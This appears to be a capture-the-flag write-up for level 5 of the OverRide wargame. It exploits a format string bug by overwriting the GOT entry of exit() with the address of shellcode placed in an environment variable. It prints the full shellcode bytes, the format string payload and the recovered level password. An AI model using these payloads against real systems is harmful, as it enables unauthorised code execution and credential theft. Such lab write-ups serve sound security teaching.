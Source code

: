 # Level05

This level adds an extra security layer before letting us `printf()` our input.
We have control over the format string BUT before calling `printf()`, the program
changes every capitalize character to a normal one. This is a problem for shellcodes
as some of the bytes used in shellcodes can be mistaken for characters, so our
usual shellcode cannot be given in the input. However we can defenitly put our
shellcode somewhere else... like the environment.

```c
fgets(str, 100, stdin);
for (i = 0; i < strlen(str); ++i)
{
	//  0x41 'A'     0x5a 'Z'
	if (str[i] > 65 && str[i] <= 90)
		str[i] ^= 0x20;
}
printf(str);
exit(0);
```

The idea is to overwrite the GOT of `exit()` with the address of the environment
variable `SHELLCODE` that will countain our shellcode.

The shellcode is the same as the previous exercise, only the `/home/users/level05/.pass`
is changed with `/home/users/level06/.pass`.

```bash
python -c 'print("\x90" * 20 + "\x6a\x01" * 10 + "\x6a\x73" +
"\x68\x2e\x70\x61\x73" +
"\x68\x30\x36\x2f\x2f" +
"\x68\x65\x76\x65\x6c" +
"\x68\x72\x73\x2f\x6c" +
"\x68\x2f\x75\x73\x65" +
"\x68\x68\x6f\x6d\x65" +
"\x68\x2f\x2f\x2f\x2f" +
"\x31\xc0" +
"\x31\xd2" +
"\x31\xc9" +
"\x31\xdb" +
"\xb0\x05" +
"\x89\xe3" +
"\xb1\x02" +
"\xb2\x01" +
"\xcd\x80" +
"\x89\xc3" +
"\xb0\x03" +
"\x89\xe1" +
"\xb2\x29" +
"\xcd\x80" +
"\xb0\x04" +
"\xb3\x01" +
"\x89\xe1" +
"\xb2\x29" +
"\xcd\x80" +
"\xb0\x01" +
"\xcd\x80"
)')
```

Then we need to know the address of the shellcode environment variable.

```c
int main() {
        printf("%p\n", getenv("SHELLCODE"));
}
```

```bash
level05@OverRide:~$ env -i SHELLCODE=$SHELLCODE /tmp/code
0xffffdf76
```

After this, we can use the python script to generate a good format string exploit.

```bash
$> python level05/Ressources/level05.py 0x080497e0 0xffffdf76
< <(python -c 'print("\xe0\x97\x04\x08" + "aaaa" + "\xe2\x97\x04\x08" + "%c%c%c%c%c%c%c%c" + "%57186c" + "%hn" + "%8329c" + "%hn")')
```

And we can finish by running the executable with the good input to run our shellcode.

```bash
level05@OverRide:~$ env -i SHELLCODE=$SHELLCODE ./level05 < <(python -c 'print("\xe0\x97\x04\x08" + "aaaa" + "\xe2\x97\x04\x08" + "%c%c%c%c%c%c%c%c" + "%57186c" + "%hn" + "%8329c" + "%hn")')

[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
